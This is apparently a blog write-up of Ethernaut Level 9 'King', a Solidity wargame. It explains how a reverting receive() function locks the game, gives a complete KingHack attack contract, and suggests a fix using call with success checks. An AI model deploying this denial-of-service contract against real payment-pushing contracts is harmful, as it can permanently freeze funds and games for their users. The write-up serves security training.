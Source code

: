 ```yaml
---
title: Level 9 - King
slug: level-9
published: 05-17-2023
lastEdited:
imgSrc: /images/ethernaut/ethernaut9.svg
---
```


## Objectives

1. Break the game by making is unplayable.

## Vulnerabilities

### Flawed game logic

The game logic has a flaw. When a new king is crowned, the game contract send the previous king the prize amount.

```solidity
receive() external payable {
  require(msg.value >= prize || msg.sender == owner);
  payable(king).transfer(msg.value);
  king = msg.sender;
  prize = msg.value;
}
```

As it is implemented, the game breaks if that previous king can't receive eth. For this exploit, we make the king
a contract that reverts everytime it receivers eth

```solidity
receive() external payable {
    revert();
}
```

## Exploit

1. Write and deploy the following hack contract

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface IKing {function prize() external view returns(uint);}

contract KingHack {
    IKing target;

    constructor(address _targetAddress){
        target = IKing(_targetAddress);
    }

    function attack() external payable {
        require(msg.value >= target.prize() , "Not enough Eth");
        (bool success,) = address(target).call{value: msg.value}("");
        require(success, "Transaction not succssful");
    }

    receive() external payable {
        revert();
    }
}
```

2. Call the `attack` function to break the game.

## Suggested mitigation

1. Replace `transfer` by `call` which

```solidity
receive() external payable {
  require(msg.value >= prize || msg.sender == owner);
  (bool success, ) = payable(king).call{value: msg.value}("");
  if(success){
    king = msg.sender;
    prize = msg.value;
  } else {
    // Some logic for when call fails.
  }

}
```

## Further reading

- King of the ether post-mortem <ExternalLink href={"http://www.kingoftheether.com/postmortem.html"} />
